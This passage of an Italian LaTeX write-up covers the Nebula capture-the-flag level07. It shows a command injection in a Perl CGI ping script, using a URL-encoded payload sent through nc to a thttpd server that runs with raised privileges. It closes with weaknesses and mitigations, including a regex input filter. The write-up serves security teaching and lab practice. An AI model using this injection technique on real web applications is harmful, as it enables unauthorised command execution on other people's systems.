    \item Da un argomento \texttt{Host=IP} (se invocato tramite linea di comando)
    \item Da una richiesta \texttt{GET /index.cgi?Host=IP} (se invocato tramite un server Web)
\end{itemize}
Lo script index.cgi:
\begin{itemize}
    \item Crea uno scheletro di pagina HTML
    \item Esegue il comando \texttt{ping -c 3 IP 2>\&1}, che invia 3 pacchetti ICMP \texttt{ECHO\_REQUEST} all’host il cui indirizzo è IP (e redirige eventuali errori su \texttt{STDOUT})
    \item Inserisce l’output del comando nella pagina HTML
\end{itemize}
Proviamo ad effettuare un’iniezione locale con il comando:
\begin{lstlisting}[style=bashstyle]
    /home/flag07/index.cgi "Host=8.8.8.8; /bin/getflag"
\end{lstlisting}
/bin/getflag non viene eseguito.

Leggiamo quindi la documentazione della funzione \textbf{param()} e scopriamo che invocata con il nome di un parametro, param() restituisce il suo valore.
Scopriamo inoltre che il carattere \textcolor{red}{;}(semicolon) assume un ruolo speciale nel contesto degli URL gestiti dallo standard CGI, ovvero consente di separare i parametri.
Nel comando \begin{lstlisting}[style=bashstyle]
    /home/flag07/index.cgi "Host=8.8.8.8; /bin/getflag"
\end{lstlisting} l'argomento contiene un riferimento a 2 parametri:
\begin{itemize}
    \item Nome=Host, valore=8.8.8.8 
    \item Nome=/bin/getflag, valore = emptystring  
\end{itemize}
Tuttavia, lo script \textbf{index.cgi} estrae il solo valore di \textbf{Host} e lo assegna alla variabile \textbf{\$host}, quindi /bin/getflag non viene iniettato.

Nel comando che abbiamo digitato sono stati usati due caratteri speciali:
\begin{itemize}
    \item Carattere \textcolor{red}{;} usato come delimitatore di campi
    \item Carattere \textcolor{red}{/} usato come separatore di directory
\end{itemize}
Leggendo la definizione dei caratteri speciali negli URL, si scopre che la procedura di escape dei caratteri speciali in un URL(URL econding), funziona in questo modo:
\begin{itemize}
    \item Si individua il codice ASCII del carattere
    \item Si scrive il codice in esadecimale
    \item Gli si prepende il carattere di escape \%
\end{itemize}
Quindi \textcolor{red}{;==\%3B} e \textcolor{red}{/==\%2F}. Il comando diventa così:
\begin{lstlisting}[style=bashstyle]
    "Host=8.8.8.8%3B%2Fbin%2Fgetflag"
\end{lstlisting}
Tentiamo nuovamente l’attacco digitando il comando:
\begin{lstlisting}[style=bashstyle]
    /home/flag07/index.cgi "Host=8.8.8.8%3B%2Fbin%2Fgetflag"
\end{lstlisting}
L'iniezione locale ha successo ma non avendo i privilegi di flag07 non possiamo eseguire /bin/getflag.
Bisogna identificare un server Web che esegua index.cgi SETUID flag07 
Se un siffatto server esiste, l'input appena usato permette l'esecuzione di /bin/getflag con i privilegi di flag07 
Si vince la sfida!

Visualizziamo quindi i metadati di thttpd.conf, scopriamo che:
\begin{itemize}
    \item È leggibile da tutti gli utenti e modificabile solo da root
    \item Identifica il server Web sotto cui esegue \texttt{index.cgi}
\end{itemize}
Dalla lettura del file thttpd.conf otteniamo queste informazioni:
\begin{itemize}
    \item \textbf{port=7007}: il server Web thttpd ascolta sulla porta 7007
    \item \textbf{dir=/home/flag07}: la directory radice del server Web è \textbf{/home/flag07}
    \item \textbf{nochroot}: il server Web “vede” l'intero file system dell'host
    \item \textbf{user=flag07}: il server Web esegue con i diritti dell'utente flag07
\end{itemize}
Quindi:
\begin{itemize}
    \item Si può contattare il server Web sulla porta TCP 7007 (il vettore di accesso remoto)
    \item Il server Web vede l'intero file system, quindi anche il file eseguibile \textbf{/bin/getflag}
    \item Il server Web esegue come utente \texttt{flag07} (il che permette a \textbf{/bin/getflag} l'esecuzione con successo)
\end{itemize}
Notiamo che c’è un processo che gira sulla porta 7007, ma per verificare che sia proprio il processo thttpd dobbiamo avere i privilegi di root, che ovviamente da attaccante non abbiamo.
Quindi inviamo richieste al server per avere certezza che il processo in ascolto giri sulla porta 7007. 
\begin{itemize}
    \item L'hostname da usare è uno qualunque su cui ascolta il server
    \item Dal precedente output di \textbf{netstat} si evince che \textbf{thttpd} ascolta su tutte le interfacce di rete (\textbf{:::}). Quindi vanno bene nomi associati a questi IP:
    \begin{itemize}
        \item 127.0.0.1 (localhost)
        \item L'IP assegnato all'interfaccia di rete
    \end{itemize}
\end{itemize}
\begin{lstlisting}[style=bashstyle]
    nc localhost 7007
\end{lstlisting}
Proviamo a recuperare la risorsa associata all'URL / con:
\begin{lstlisting}[style=bashstyle]
    nc localhost 7007 
    GET / HTTP/1.0
\end{lstlisting}
Notiamo che l'accesso a / è proibito, ma scopriamo che il server è effettivamente thttpd.
Quindi proviamo l'attacco connettendoci al server e invocando lo script con input URL encoded:
\begin{lstlisting}[style=bashstyle]
    nc localhost 7007 
    GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
\end{lstlisting}

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    nc localhost 7007 
    GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
\end{lstlisting}
Vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item Il Web server thttpd esegue con privilegi di esecuzione ingiustamente elevati, ovvero quelli dell'utente “privilegiato” flag07.
    \item Se un'applicazione Web che esegue comandi non neutralizza i “caratteri speciali” è possibile iniettare nuovi caratteri in cascata ai precedenti.
\end{itemize}

\subsection{Mitigazioni}
\begin{enumerate}
    \item Possiamo riconfigurare thttpd in modo che esegua con in privilegi di un utente inferiore
    \begin{itemize}
        \item Creiamo una nuova configurazione nella home directory dell’utente level07 
        \item Diventiamo root tramite l’utente nebula 
        \item Copiamo \texttt{/home/flag07/thttpd.conf} nella home directory di \texttt{level07}: 
        \begin{lstlisting}[style=bashstyle]
            cp /home/flag07/thttpd.conf /home/level07
        \end{lstlisting}
        \item Aggiorniamo i permessi del file:
        \begin{lstlisting}[style=bashstyle]
            chown level07:level07 /home/level07/thttpd.conf
            chmod 644 /home/level07/thttpd.conf
        \end{lstlisting}
        \item Editiamo il file \texttt{/home/flag07/thttpd.conf}:
        \begin{lstlisting}[style=bashstyle]
            nano /home/level07/thttpd.conf
        \end{lstlisting}
        \item Impostiamo una porta di ascolto TCP non in uso: 
        \begin{lstlisting}[style=bashstyle]
            port=7008
        \end{lstlisting}
        \item Impostiamo la directory radice del server:
        \begin{lstlisting}[style=bashstyle]
            dir=/home/level07
        \end{lstlisting}
        \item Impostiamo l’esecuzione come utente \texttt{level07}: 
        \begin{lstlisting}[style=bashstyle]
            user=level07
        \end{lstlisting}
        \item Copiamo \texttt{/home/flag07/index.cgi} nella home directory di \texttt{level07}:
        \begin{lstlisting}[style=bashstyle]
            cp /home/flag07/index.cgi /home/level07
        \end{lstlisting}
        \item Aggiorniamo i permessi dello script:
        \begin{lstlisting}[style=bashstyle]
            chown level07:level07 /home/level07/index.cgi
            chmod 0755 /home/level07/index.cgi
        \end{lstlisting}
        \item Eseguiamo manualmente una nuova istanza del server Web thttpd:
        \begin{lstlisting}[style=bashstyle]
            thttpd -C /home/level07/thttpd.conf
        \end{lstlisting} 
        Ripetiamo l'attacco e /bin/getfag non avrà pù i privilegi di flag07, quindi l'attaco fallisce.
    \end{itemize}
    \item Possiamo implementare nello script Perl un filtro dell'input basato su \textbf{blacklist}. Se l'input non ha la forma di un indirizzo IP viene scartato silenziosamente.
    Il nuovo script index-bl.cgi esegue le seguenti operazioni:
    
\begin{itemize}
    \item Memorizza il parametro Host in una variabile \texttt{\$host}
    \item Fa il match di \texttt{\$host} con un'espressione regolare che rappresenta un indirizzo IP
    \item Controlla se \texttt{\$host} verifica l'espressione regolare
    \item Se sì, esegue il comando ping
    \item Se no, non esegue nulla
\end{itemize}
    Esempio di espressione regolare: \verb|^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$|
    Aggiungiamo questa linea di codice prima di \textbf{ping}:
\begin{lstlisting}[style=perlstyle]
        if ($host =~ /^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\$/) { 
            ping($host);
        }
\end{lstlisting}
Riproviamo l’attacco e non vinceremo la sfida.
\end{enumerate}

